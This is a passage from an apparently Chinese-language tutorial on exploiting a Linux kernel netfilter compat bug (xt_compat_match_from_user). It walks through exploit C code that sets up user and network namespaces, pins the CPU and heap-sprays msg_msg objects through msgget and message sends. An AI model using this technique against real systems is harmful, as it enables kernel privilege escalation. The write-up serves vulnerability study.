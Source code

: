 ```c

	*size += off;
	*dstptr += msize;
}
EXPORT_SYMBOL_GPL(xt_compat_match_from_user);
```
# 漏洞利用
这里逐步讲解exp利用细节
首先是设置cpu亲和性和命名空间隔离,创建新的命名空间的意义主要在于在新的命名空间中进行特权操作

```c
int setup_sandbox(void) {
    /* 创建新的用户命名空间 */
  if (unshare(CLONE_NEWUSER) < 0) {
    perror("[-] unshare(CLONE_NEWUSER)");
    return -1;
  }
    /* 创建新的网络命名空间 */
  if (unshare(CLONE_NEWNET) < 0) {
    perror("[-] unshare(CLONE_NEWNET)");
    return -1;
  }

  cpu_set_t set;
  CPU_ZERO(&set);
  CPU_SET(0, &set);
    /*设置cpu亲和性为0 core */
  if (sched_setaffinity(getpid(), sizeof(set), &set) < 0) {
    perror("[-] sched_setaffinity");
    return -1;
  }

  return 0;
}
```
然后申请大量`msg_queue`,主要是通过`msgget`来申请
```c
    msqid[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666)
```
```(
__x64_sys_msgget
    compat_ksys_msgget
        ipcget
            ipcget_new
                ops->getnew newque
```
之后开始堆喷`primary_msg`,这里可以简单的使用`msgsend`来达成效果，注意传递的消息需要是0x1000大小
完毕之后堆喷`secondary_msg`,选择堆喷0x400大小的`msg_msg`

```c
//1-2. 创建4k个msg_primary —— size=0x1000
  printf("[*] Spraying primary messages...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    ...
    if (write_msg(msqid[i], &msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) < 0)
    ...
  }
// 1-3. create 4096 secondary msg —— size=0x400
  printf("[*] Spraying secondary messages...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    ..
    if (write_msg(msqid[i], &msg_secondary, sizeof(msg_secondary),
                  MTYPE_SECONDARY) < 0)
        ...
```